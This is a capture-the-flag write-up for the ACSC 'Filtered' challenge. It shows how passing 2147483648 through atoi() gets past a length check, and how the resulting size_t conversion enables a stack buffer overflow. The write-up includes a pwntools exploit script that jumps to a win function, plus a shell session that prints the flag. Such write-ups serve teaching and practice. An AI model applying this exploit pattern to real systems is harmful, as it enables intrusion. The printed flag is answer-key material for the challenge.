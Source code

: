 ```yaml
---
description: Buffer overflow with a flawed length check
---
```


# Filtered

## Description

Filter invalid sizes to make it secure!  
  
Backup: `nc 167.99.78.201 9001`

`nc filtered.chal.acsc.asia 9001`

{% file src="../../.gitbook/assets/filtered.tar.gz\_9a6cb1b3eafce70ff549ba6b942f34a9.gz" caption="Challenge Files" %}

## Solution

First, the user is asked for the data length. If the length is more than 0x100, the program exits.

```c
int length;
char buf[0x100];

/* Read and check length */
length = readint("Size: ");
if (length > 0x100) {
  print("Buffer overflow detected!\n");
  exit(1);
}

/* Read data */
readline("Data: ", buf, length);
print("Bye!\n");
```

The length is read using `atoi()`:

```c
/* Print `msg` and read an integer value */
int readint(const char *msg) {
  char buf[0x10];
  readline(msg, buf, 0x10);
  return atoi(buf);
}
```

I came across this thread: [https://stackoverflow.com/questions/41869515/overflow-when-change-from-string-to-int-in-c/41869611](https://stackoverflow.com/questions/41869515/overflow-when-change-from-string-to-int-in-c/41869611)

Using `2147483648`, an integer overflow is caused since the largest unsigned int is `2147483647`. Therefore, `length` is a negative signed integer, passing the length check.

However, when calling `readline()`, the length is passed to a `size_t` argument.

```c
/* Print `msg` and read `size` bytes into `buf` */
void readline(const char *msg, char *buf, size_t size) {
  char c;
  print(msg);
  for (size_t i = 0; i < size; i++) {
    if (read(0, &c, 1) <= 0) {
      print("I/O Error\n");
      exit(1);
    } else if (c == '\n') {
      buf[i] = '\0';
      break;
    } else {
      buf[i] = c;
    }
  }
}
```

Now, `size_t` is _unsigned_, so the permitted size would instead become a large positive integer. We can try this experiment ourselves:

```c
int main() {
    int length = atoi("2147483648");
    printf("%d\n", length);

    size_t size = length;
    printf("%zu\n", length);
}
```

The output would be:

```text
-2147483648
2147483648
```

From here, this is a regular buffer overflow challenge. The offset is 280, and we want to jump to the win function here:

```text
0x004011d6    1 65           sym.win
```

Solver script:

```python
from pwn import *

conn = remote("167.99.78.201", 9001)

print(conn.recvuntil(b"Size:"))

conn.send(b"2147483648\r\n")

print(conn.recvuntil(b"Data:"))

conn.send(b"A" * 280 + p64(0x004011d6) + b"\r\n")

conn.interactive()
```

Get the flag:

```text
└─# python3 filtered.py
[+] Opening connection to 167.99.78.201 on port 9001: Done
b'Size:'
b' Data:'
[*] Switching to interactive mode
 Bye!
$ whoami
pwn
$ ls -la
total 36
drwxr-xr-x 1 root pwn   4096 Sep 18 02:21 .
drwxr-xr-x 1 root root  4096 Sep 18 02:21 ..
-r-xr-x--- 1 root pwn     40 Sep 18 02:20 .redir.sh
-r-xr-x--- 1 root pwn  17008 Sep 18 02:20 filtered
-r--r----- 1 root pwn     59 Sep 18 02:20 flag-08d995360bfb36072f5b6aedcc801cd7.txt
$ cat flag-08d995360bfb36072f5b6aedcc801cd7.txt
ACSC{GCC_d1dn'7_sh0w_w4rn1ng_f0r_1mpl1c17_7yp3_c0nv3rs10n}
$
```


